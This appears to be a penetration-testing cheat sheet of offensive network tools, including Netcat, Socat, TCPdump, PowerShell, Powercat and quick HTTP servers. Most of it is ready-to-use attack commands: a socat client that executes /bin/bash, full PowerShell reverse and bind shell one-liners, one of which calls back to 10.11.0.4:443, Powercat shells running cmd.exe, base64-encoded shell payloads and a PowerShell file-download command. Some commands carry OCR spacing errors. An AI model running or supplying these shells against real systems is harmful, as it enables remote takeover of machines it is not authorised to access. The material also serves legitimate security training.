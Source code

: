 # Tools

#### :red_circle: Netcat

>The TCP/IP Swiss Army tool is a utility capable of establishing a TCP or UDP connection between two computers, meaning it can write and read through an open port. With the help of the program, files can be transferred and commands can be executed in some instances.

[SANS Netcat Cheatsheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)

#### :red_circle: Socat

>Socat is a command-line utility that establishes two bidirectional byte streams and transfers data between them. It is similar to Netcat but has additional useful features.

###### Listener:
```bash
socat -d -d TCP4-LISTEN:$PORT STDOUT
```

###### Client:
```bash
socat TCP4:$IPADDRESS:$PORT EXEC:/bin/bash
```

#### :red_circle: TCPdump

>Command line base Network Analysis Tool. Very useful and good to know if you are on a system that does not have a gui interface.

[TCPDump Cheatsheet](https://www.andreafortuna.org/technology/networking/tcpdump-a-simple-cheatsheet/)

[Daniel Miessler TCPDump Guide](https://danielmiessler.com/study/tcpdump/)

###### Read PCAP files:
```bash
#Filters:
-n src host $IPADDRESS #source IP
-n dst host $IPADDRESS #destination IP
-n port $PORT #Filter port numbers
-nX #print packet data in both HEX and ASCII
-A -n 'tcp[13] = 24' #Show only data packets. "A" stands for ACK packets and "'tcp[13] = 24'" stands for the 14th array of a TCP Packet (flags) where the PSH and ACK flags are set to 1 (00011000).
```

#### :red_circle: PowerShell

###### Downloading files:
```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('$URLOFTHEFILE','$DESTINATIONPATH')"
```

###### Reverse shell (one-liner):

```bash
#Change IP & Port
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10. 11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

###### Bind shell (one-liner):

```bash
#Change port
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString ($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto p()"
```

#### :red_circle: Powercat

> [Powercat](https://github.com/besimorhino/powercat)  is essentially the PowerShell version of Netcat.

First of all ["dot source"](https://ss64.com/ps/source.html) the script in a PowerShell window:

```bash
. .\powercat.ps1
```

###### Reverse shell:

```bash
powercat -c $IPADDRESS -p $PORT -e cmd.exe
```

###### Bind shell:

```bash
powercat -l -p $PORT -e cmd.exe
```

###### Encoded shells:

```bash
#Using the -ge flag we get the payload encoded in base64:
powercat -c $IPADDRESS -p $PORT -e cmd.exe -ge > encodedreverseshell. ps1
powercat -l -p $PORT -e cmd.exe -ge > encodedbindshell.ps1
#Once done, copy the output (base64 text) and execute the following on a PS window:
cat $FILE.ps1 #copy this
powershell.exe -E $BASE64TEXT
```

#### :red_circle: cutycapt

>Command-line utility to take a snapshot of a web page into a variety of vector and bitmap formats.

```bash
#Extension includes: SVG, PDF, PS, PNG, JPEG, TIFF, GIF, and BMP.
cutycapt --url=$URL --out=$FILE.$EXTENSION
```

## Quick HTTP Servers:

```bash
python -m SimpleHTTPServer $PORT
python3 -m http.server $PORT
php -S 0.0.0.0:$PORT
ruby -run -e httpd . -p $PORT
busybox httpd -f -p $PORT
```

